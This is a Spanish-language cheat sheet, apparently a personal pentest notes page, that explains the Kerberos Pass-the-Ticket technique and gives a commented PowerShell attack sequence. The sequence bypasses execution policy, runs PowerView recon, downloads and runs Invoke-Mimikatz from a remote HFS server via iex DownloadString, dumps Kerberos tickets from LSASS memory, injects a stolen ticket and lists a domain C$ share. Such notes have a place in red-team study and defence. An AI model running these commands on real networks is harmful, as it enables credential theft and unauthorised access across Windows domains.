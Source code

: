 # Pass The Ticket 

Tags: #AD #Windows #PassTheTicket 

Es una técnica para robar credenciales que usan los atacantes para robar tickets de Kerberos para autenticarse con los recursos, archivos compartidos, y otras computadoras como un usuario sin tener que la contraseña del usuario comprometida.  Ambos, TGS (Ticket-Granting Service) y TGT (Ticket-Granting Ticket) puede ser robado y rehusado por los atacantes.  Sin los privilegios administrativos, un atacante puede obtener el TGT (usando 'delegacion fake') y todos los tickets para el usuario actual. Con permisos administrativos, un atacante puede dumpear los procesos LSASS y obtener todos los TGTs y capturar los tickets TGS en el sistema. 

```powershell
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas
 	
# Reconocimiento 
❯ . .\PowerView.ps1                          # Importamos el modulo

❯ Find-LocalAdminAccess                      # Descubrir maquinas en el AD donde el user tiene acceso local de Admin
❯ Enter-PSSession <seclogs.domian.local>     # Nos autenticamos a la sesion local via remota en el 'DOMINIO' 
	❯ whoami /priv                          # Miramos si tenemos los priv para elevar los privilegios 

# En la maquina del DC abrimos un 'HFS' para transferir el archivo 'Invoke-Mimikatz.ps1' a la sesion remota 
	❯ cd /                                  # Nos dirigimos a la carpeta 'root' de la sesion remota 
	❯ iex (New-Object New.WebClient).DownloadString('http://IP-HFS/Invoke-Mimikatz.ps1')  # Descargamos en la sesion remota el modulo que se encuentra en el DC de la maquina no remota llamado 'Invoke-Mimikatz.ps1' por medio del 'HFS' para despues utilizarlo dentro de la misma sesion remota 
	❯ Invoke-Mimikatz -Command '"sekurlsa::tickets /export "' # Exportamos los tickets de Kerberos locales desde la memoria LSASS
	❯ ls | select name                      # Listamos los tickets (.kirbi) y escogemos el 'maintainer@krbtgt'
	❯ Invoke-Mimikatz -Command '"kerberos::ptt <ticket>"'     # ptt = Pass-The-Ticket 

# Una vez dentro 
❯ klist          # Mirar si el ticket de Kerberos si funciono y cambio 'Analizar el ticket'
	❯ klist purge                           # Si hacemos mal el ticket los podemos eliminar asi
❯ ls \\Domain.local\c$    # Listar los directoriso en C siempre y cuando tengamos los permisos 

```